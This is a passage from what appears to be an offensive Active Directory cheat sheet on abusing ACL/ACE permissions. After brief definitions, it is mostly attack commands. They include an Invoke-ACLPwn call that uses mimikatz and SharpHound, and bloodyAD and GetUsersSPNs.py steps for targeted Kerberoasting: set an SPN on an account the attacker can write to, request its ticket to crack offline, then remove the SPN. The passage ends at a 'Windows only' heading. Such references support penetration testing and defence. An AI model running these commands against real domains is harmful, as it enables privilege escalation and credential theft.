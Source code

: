 # Active Directory - Access Controls ACL/ACE

An **Access Control Entry (ACE)** is a specific permission granted or denied to a user or group for a particular resource, such as a file or directory. Each ACE defines the type of access allowed (e.g., read, write, execute) or denied.

An **Access Control List (ACL)** is a collection of Access Control Entries (ACEs) associated with a resource.

* Check ACL for an User with [ADACLScanner](https://github.com/canix1/ADACLScanner).

 ```ps1
 ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
 ```

* Automate ACL exploit [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn):

 ```ps1
 ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
 ```

## GenericAll/GenericWrite

### User/Computer

We can set a **SPN** on a target account, request a Service Ticket (ST), then grab its hash and kerberoast it.
    
* Windows/Linux

  ```ps1
  # Check for interesting permissions on accounts:
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get writable --otype USER --right WRITE --detail | egrep -i 'distinguishedName|servicePrincipalName'

  # Check if current user has already an SPN setted:
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get object <UserName> --attr serviceprincipalname

  # Force set the SPN on the account: Targeted Kerberoasting
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname -v 'ops/whatever1'

  # Grab the ticket
  GetUsersSPNs.py -dc-ip 10.10.10.10 'attack.lab/john.doe:Password123*' -request-user <UserName>

  # Remove the SPN
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname
  ```

* Windows only
